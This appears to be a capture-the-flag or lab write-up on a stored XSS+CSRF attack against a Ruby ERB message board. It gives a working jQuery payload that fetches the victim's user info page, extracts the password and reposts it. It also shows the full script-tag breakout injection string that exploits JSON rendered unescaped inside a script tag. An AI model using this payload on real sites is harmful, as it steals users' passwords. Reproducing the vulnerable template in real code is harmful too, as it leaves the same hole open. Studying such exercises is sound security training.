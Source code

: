 Once again, we need to use XSS+CSRF to cause the target user to reveal their password.  In this case we will post a message that contains an XSS vector that causes the viewer to get their password from the user info page and post it as a message. 

The injection vector should cause the victim to grab the password from the user info page and post a message.  It will look something like this:

```javascript
$.get('user_info',function (data) {
  $.post('ajax/posts', 
    { title: $('td', data)[1].innerHTML, 
      body: 'EMPTY'
    });
});
```
The second `<td>` tag we select above is the one that contains the user's password in the user info page.

Where are we going to inject into?  The ERB template used to display the messages loads all the posts in JSON format as an object inside a script tag.  The contents of that object are then added to the DOM using javascript.
``` html
<script>
  var username = "<%= @username %>";
  var post_data = <%= @posts.to_json %>;
    
  function escapeHTML(val) {
    return $('<div/>').text(val).html();
  }
  function addPost(item) {
    var new_element = '<tr><th>' + escapeHTML(item['user']) +
                      '</th><td><h4>' + escapeHTML(item['title']) + '</h4>' +
                      escapeHTML(item['body']) + '</td></tr>';
    $('#posts > tbody:last').prepend(new_element);
  }

  for(var i = 0; i < post_data.length; i++) {
    var item = post_data[i];
    addPost(item);
  };
</script>
```

This is where our injection will happen.  We will post a message that contains a closing and then opening script tag. So if we post a message with the body `</script><script>$.get('user_info',function (data) {$.post('ajax/posts', {title:$('td', data)[1].innerHTML, body:'EMPTY'})});</script><script>` we get something like

``` html
<script>
  var username = "USERNAME";
  var post_data = [{"id": 1, "title": "Some title", "body": "</script><script>$.get('user_info',function (data) {$.post('ajax/posts', {title:$('td', data)[1].innerHTML, body:'EMPTY'})});</script><script>[THE REST OF THE LEGITIMATE CODE]</script>
```
The syntax highlighting above should make it clear that our javascript will be executed as such.
